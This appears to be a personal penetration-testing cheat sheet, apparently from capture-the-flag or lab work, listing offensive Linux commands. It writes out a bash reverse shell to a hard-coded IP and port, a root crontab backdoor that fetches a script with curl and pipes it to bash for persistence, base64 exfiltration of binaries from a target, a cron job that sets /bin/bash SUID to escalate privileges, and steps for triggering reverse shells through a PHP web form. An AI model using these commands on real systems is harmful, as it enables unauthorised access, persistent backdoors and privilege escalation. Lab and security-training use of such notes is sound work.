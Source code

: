 
# login ssh without loading bashrc file  to bypass a loop or other error
ssh -t alex@10.10.150.157 /bin/bash --norc --noprofile


# transfer a binary via base64 
base64 binary 								(on target machine)
mkdir transfer_files; cd transfer_files; nano binary			(on attacker machine)
copy and paste base64 output to binary					(on attacker machine)
base64 -d binary > transfer_files/binary 				(on attacker machine)


# rev bash shell one liner
cat > /tmp/a.sh << "EOF"
#!/bin/bash
bash -i >& /dev/tcp/10.13.1.99/1337 0>&1
EOF

# cronjob backdoor with curl (maintaining persistence) - add line below to /etc/crontab must have root access.

* *     * * *   root    curl http://<yourip>/crontask.sh | bash

Notice that we put a "*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .
We first use "curl" to download a file , and then we pipe it to "bash"
The contents of the "shell" file that we are using are simply :
-------------------------------------------------
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
--------------------------------------------------
We would have to run an HTTP server serving our shell.
You can achieve this by running : "python3 -m http.server 80"
Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!
Don't forget to listen on your specified port with "nc -nvlp <port>"*


# cronjob escalate privs via bash SUID binary 
chmod +w file_scheduled_in_cron
echo 'chmod 4777 /bin/bash' >> file_scheduled_in_cron
/bin/bash -p

# multi reverse shells via php web form and a bash script(shells-multi.sh)
1. fire up python server (espanso :server) in dir -> /home/kali/Shared/Opt-Tools/shells 
2. launch a nc listener (espanso :listen) 
3. copy and paste code of following php script to the web form -> /home/kali/Shared/Opt-Tools/shells/execute-shells-multi.php 
4. navigate to the web form to trigger rev shell
